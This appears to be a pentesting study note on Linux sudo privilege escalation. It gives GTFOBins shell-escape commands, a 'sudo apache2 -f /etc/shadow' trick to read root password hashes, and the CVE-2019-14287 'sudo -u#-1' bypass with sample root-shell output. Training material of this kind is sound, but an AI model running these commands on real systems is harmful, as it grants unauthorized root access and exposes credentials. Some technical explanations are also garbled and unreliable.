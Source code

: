 # Sudo Abuse

running sudo without password is one of the most dangerous things in linux. we can use sudo to run binaries and apps that are vulnerable to shell escape sequence and use them to get a root shell.

GTFObins is a great resource for linux privilege escalation and will help you find vulnerable binaries and methods to use them.

{% embed url="https://gtfobins.github.io/" %}

**sudo -l** >>> see what executable binaries in the system we can use with sudo

![](../../../.gitbook/assets/sudo.png)

for example we search for find command in the web page to see how we can use it to abuse sudo

![](../../../.gitbook/assets/sudo2.png)

we can use this for prives

#### `sudo find . -exec /bin/sh \; -quit`

another example would be apache2 which we can ru usung sudo but it doesnt have an scape sequence to abuse

but there are other methods for this for example apache2 will return an error while parsing a configuration file when it doesnt understand it and it will print out any line of the given file

#### `sudo apache2 -f /etc/shadow`

apache wont understand the /etc/shadow file entries as a config file so it will print out any line that it doesnt understand which will be the root hashed password

![](../../../.gitbook/assets/sudo3.png)

we can now copy and crack the root hash

## CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u #$((0xffffffff))" command.

the exploit code can be found here.

{% embed url="https://www.exploit-db.com/exploits/47502" %}

Check for the user sudo permissions

#### `sudo -l`

User hacker may run the following commands on kali:

#### `(ALL, !root) /bin/bash`

#### So user hacker can't run /bin/bash as root (!root)

User hacker sudo privilege in /etc/sudoers

#### `# User privilege specification`  `root ALL=(ALL:ALL) ALL`

#### `hacker ALL=(ALL,!root) /bin/bash`

With ALL specified, user hacker can run the binary /bin/bash as any user

### Exploit

**sudo -u#-1 /bin/bash** → #-1 means the the first entry of the /etc/shadow file (root) so we can specify any user ID with a + like: #+1000

Example :

#### `hacker@kali:~$ sudo -u#-1 /bin/bash`  `root@kali:/home/hacker# id`  `uid=0(root) gid=1000(hacker) groups=1000(hacker)`  `root@kali:/home/hacker#`

#### &#x20;Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u#-1 returns as 0 which is root's id and /bin/bash is executed with root permission Proof of Concept Code :

#### `python3 sudo_exploit.py`

